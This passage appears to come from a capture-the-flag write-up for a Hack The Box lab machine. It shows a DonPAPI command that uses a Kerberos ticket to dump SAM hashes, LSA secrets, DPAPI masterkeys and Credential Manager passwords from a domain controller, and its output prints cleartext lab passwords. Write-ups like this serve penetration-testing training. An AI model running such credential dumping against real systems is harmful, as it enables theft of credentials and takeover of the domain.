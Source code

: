 ### Dumping Creds
Next we dump all the credentials with DonPAPI.

```console
$ KRB5CCNAME=M.SchoolBus.ccache donpapi collect -k --no-pass -t frizzdc.frizz.htb
[💀] [+] DonPAPI Version 2.0.1
[💀] [+] Output directory at /home/s3rp3nt/.donpapi
[💀] [+] Loaded 1 targets
[💀] [+] Recover file available at /home/s3rp3nt/.donpapi/recover/recover_1742171384
[frizzdc.frizz.htb] [+] Starting gathering credz
[frizzdc.frizz.htb] [+] Dumping SAM
[01:29:52] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.       secretsdump.py:1340
[frizzdc.frizz.htb] [$] [SAM] Got 3 accounts
[frizzdc.frizz.htb] [+] Dumping LSA
[frizzdc.frizz.htb] [$] [LSA] (Unknown User):BananaB0at!!@
[frizzdc.frizz.htb] [$] [LSA] (Unknown User):BananaB0at!!@
[frizzdc.frizz.htb] [+] Dumping User and Machine masterkeys
[frizzdc.frizz.htb] [$] [DPAPI] Got 5 masterkeys
[frizzdc.frizz.htb] [+] Dumping User Chromium Browsers
[frizzdc.frizz.htb] [+] Dumping User and Machine Certificates
[frizzdc.frizz.htb] [+] Dumping User and Machine Credential Manager
[frizzdc.frizz.htb] [$] [CredMan] [SYSTEM] Domain:batch=TaskScheduler:Task:{021CAB75-2E8A-43B7-A27B-3E488E46505D} - frizz\v.frizzle:Remember0?Attempt?Depend?Was?Tape
[frizzdc.frizz.htb] [$] [CredMan] [SYSTEM] Domain:batch=TaskScheduler:Task:{C810CEE4-32F3-42A9-BDEF-16ADE0E28272} - frizz\f.frizzle:Jenni_Luvs_Magic23
[frizzdc.frizz.htb] [+] Gathering recent files and desktop files
[frizzdc.frizz.htb] [+] Dumping User Firefox Browser
[frizzdc.frizz.htb] [+] Dumping MobaXterm credentials
[frizzdc.frizz.htb] [+] Dumping MRemoteNg Passwords
[frizzdc.frizz.htb] [+] Dumping User's RDCManager
[frizzdc.frizz.htb] [+] Dumping SCCM Credentials
[frizzdc.frizz.htb] [+] Dumping User and Machine Vaults
[frizzdc.frizz.htb] [+] Dumping VNC Credentials
[frizzdc.frizz.htb] [+] Dumping Wifi profiles
DonPAPI running against 1 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```